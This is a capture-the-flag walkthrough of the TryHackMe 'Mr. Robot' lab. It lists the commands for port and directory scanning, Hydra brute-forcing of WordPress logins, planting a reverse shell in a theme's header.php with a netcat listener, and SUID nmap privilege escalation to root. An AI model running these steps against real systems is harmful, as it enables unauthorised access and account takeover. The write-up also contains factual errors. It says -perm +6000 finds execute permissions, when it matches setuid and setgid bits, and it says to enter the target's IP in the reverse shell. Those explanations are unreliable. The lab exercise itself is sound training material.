# TRYHACKME – Mr. Robot (CTF)

Use nmap to scan target ports

`nmap -T4 10.10.210.21`



Port:		Services:

443		https (Hypertext Transfer Protocol Secure)

80		http (Hypertext Transfer Protocol)

After that, we introduce the IP of the machine using the http protocol in our browser, we discover that there is a web page here 



Using gobuster tool to discover the directories that exists 

`gobuster dir -u [http://10.10.158.203](http://10.10.158.203) -w /usr/share/wordlist/dirbuster/directory-list-lowercase-2.3-medium.txt`





Navigate to robots.txt file 



Navigate to “key-1-of-3.txt”



Go to "fsocity.dic" and download it 

filter the content with this command

`sort -d fsocity.dic |  uniq -d > new_dic.txt`



Now with the Hydra tool we can bruteforce the user (wordpress username disclosure), but first we need to know how the information is being sent 

To do this we need to use the tool BurpSuite 



After enabling “Intercept” option, we can try login in the site to intercept the request 





`hydra -L /home/kali/Downloads/nfsocity.txt -p admin 10.10.160.233 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:Invalid username" -t 30`

- L -> specify the wordlist/dictionary
- p -> specify the password to use

http-post-form -> to websites that use POST methos in their forms

- t 30 -> specifies the number of tasks (or threads) to use for the attack



Now we know that exists three users, but we need to discover their passwords too 

`hydra -l Elliot -P /home/kali/Downloads/fsocity.bk 10.10.104.220 http-post-form “/wp-login.php:log=^USER^&pwd=^PASS^:The password you entered for the username” -t 30`



We have the username and the password, we just need to log in to the page 





Now that we have access to the page with an account that have administrator privileges, we need to explore it to discover any possible vulnerability 



We find this page that we can upload .php files to edit the page themes, but we can upload malicious content to reverse shell it

To generate the payload we can access the [https://www.revshells.com/](https://www.revshells.com/) page to do it



Fill the IP field with the target machine and choose a port to connect through

We just need to copy and paste the content in the header.php file on the page



To execute the content in this file we need to reload the page, but first we need to put our pc to listen mod to wait for the connection 

`nc -lvnp 9001`



Now that the pc is listening, we can reload the page to execute the content 



As we can see, the code was executed successfully and now we have access to the victim 



Run a pseudo terminal with python to escaping from the restricted shell 

`python3 -c 'import pty; pty.spawn("/bin/bash")'` 



Going to the directory “/home/robot” we can see that exists two files, but the first one we don’t have permissions to read  



But we can see the content of the second file 



Now we pick the hash and go to [https://crackstation.net/](https://crackstation.net/) to see if this hash has already been cracked 



As we can see, this password hash has already been cracked

Now that we know the robot password, we can change to this user



And now we can see the content of the first file that have the second flag for this challenge  



Now the first and most common step that we need to do next is privilege escalation and to do it, the most common first command is to discover what binary files/applications we can execute with the privileges that we already have

And the command is...

`find / -perm +6000 2>/dev/null | grep ‘/bin/’`

- “find” - is a command that searches for files based on various criteria.
- “/” - is the root directory, which means the search will start from the root of the file system.
- “-perm +6000” - specifies that we're looking for files with permissions that include the execute bit set for the owner, group, or others (i.e., +x permissions). The +6000 is a symbolic representation of the permissions, where:

6 represents the execute bit set for the owner (4+2=6)

0 represents no permissions for the group

0 represents no permissions for others

In other words, we're searching for files that have execute permissions for anyone (owner, group, or others).

**2>/dev/null**

- “2>” - redirects the standard error stream (file descriptor 2) to a file or device.
- “/dev/null” - is a special file that discards any input sent to it, effectively suppressing error messages.

By redirecting the standard error stream to /dev/null, we're ignoring any error messages that might occur during the search process.

**| grep '/bin/'**

- “'/bin/'” - is the pattern we're searching for, which is the string /bin/. This is likely used to filter the results to only show files that are located in the /bin directory.

Now we need to analyze the output and try to find some unusual programs 



The binary file that stands out most is the nmap file 

Now we can search ways to do privilege escalation through nmap and to do this, we can go to **[https://gtfobins.github.io/gtfobins/nmap/](https://gtfobins.github.io/gtfobins/nmap/)**  

Doing these two commands here, we can verify that we are in root

**`nmap --interactive`**

**`!sh`**



Now we explore more to find the third flag

Going to the root directory we find the last flag for this challenge

